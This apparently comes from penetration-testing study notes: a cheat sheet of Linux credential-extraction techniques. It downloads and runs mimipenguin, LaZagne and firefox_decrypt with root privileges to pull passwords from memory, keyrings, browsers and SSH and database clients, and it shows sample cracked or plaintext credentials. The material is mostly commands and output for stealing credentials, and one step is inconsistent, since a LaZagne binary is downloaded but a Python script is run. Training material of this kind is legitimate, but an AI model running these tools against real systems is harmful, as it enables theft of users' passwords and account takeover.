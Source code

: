 ## 🔧 Linux-Specific Tools and Techniques

### 1. Mimipenguin - Linux Memory Credential Extraction
```bash
# Download mimipenguin
wget https://github.com/huntergregal/mimipenguin/raw/master/mimipenguin.py
chmod +x mimipenguin.py

# Run mimipenguin (requires root privileges)
sudo python3 mimipenguin.py

# Example output:
# [SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY
```

**Mimipenguin extracts credentials from:**
- GNOME Keyring
- VSFTPd processes
- Apache2 processes
- SSH agent processes
- IRSSI IRC client
- Various system processes

### 2. LaZagne for Linux
```bash
# Download and run LaZagne
wget https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne
chmod +x lazagne

# Run all modules (Python 2.7 version)
sudo python2.7 laZagne.py all

# Example output:
# [+] Hash found !!!
# Login: sambauser
# Hash: $6$wgK4tGq7Jepa.V0g$QkxvseL.xkC3jo682xhSGoXXOGcBwPLc2CrAPugD6PYXWQlBkiwwFs7x/fhI...

# Target specific modules
./lazagne browsers    # Firefox, Chrome
./lazagne sysadmin    # SSH, FTP clients
./lazagne databases   # MySQL, PostgreSQL clients
./lazagne memory      # Memory dumps
```

### 3. Firefox Decrypt - Browser Credential Extraction
```bash
# Download firefox_decrypt
wget https://github.com/unode/firefox_decrypt/raw/master/firefox_decrypt.py
chmod +x firefox_decrypt.py

# Find Firefox profiles
ls -l ~/.mozilla/firefox/ | grep default

# Decrypt Firefox credentials (requires Python 3.9+)
python3.9 firefox_decrypt.py

# Example output:
# Website:   https://www.inlanefreight.com
# Username: 'cry0l1t3'
# Password: 'FzXUxJemKm6g2lGh'

# Alternative: Use LaZagne for browsers
python3 laZagne.py browsers
```